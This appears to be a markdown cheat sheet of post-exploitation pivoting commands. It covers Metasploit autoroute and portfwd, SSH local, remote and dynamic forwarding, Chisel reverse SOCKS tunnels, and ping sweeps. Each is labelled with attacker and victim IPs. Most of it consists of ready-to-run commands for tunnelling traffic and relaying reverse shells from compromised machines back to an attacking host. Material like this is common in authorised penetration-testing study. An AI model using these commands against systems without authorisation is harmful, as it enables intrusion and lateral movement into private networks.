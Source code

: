 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```


# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```

## Chisel Proxy
### Chisel Reverse
- Execute following command on the compromised machine
```
chisel server --socks5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
### Chisel Direct
- Use for reverse-shell connections
```
chisel client --fingerprint "       " 192.168.1.100:8080 0.0.0.0:9999:192.168.1.100:9999 (without 0.0.0.0 also works)
```


# Metasploit PortForwarding and Getting ReverseShell Instead of Bindshell
- Need meterpreter session on compromised machine
- Route traffic inside internal network
```
portfwd add -R -L 10.10.16.3(attacking machine ip) -l 8888(attacking machine port) -p 7777(compromised machine 1 port) -r 10.0.24.164(compromised machine 1)
```
- Open another msfconsole with multi/handler and set lhost to 0.0.0.0(attacking machine) , set lport to 8888(attacking machine port)
- In revershell payload set lhost to 10.0.24.164(compromised machine 1) set lport to -p 7777(compromised machine 1 port)
- What happened is when victim connect reverse shell back, it connect to compromised machine 1 first on port 7777, but it is forwarded to 0.0.0.0(attacking machine) on port 8888 and got the connection.

# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do ping -c1 -W1 192.168.1.${i} & done | grep
```


# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```

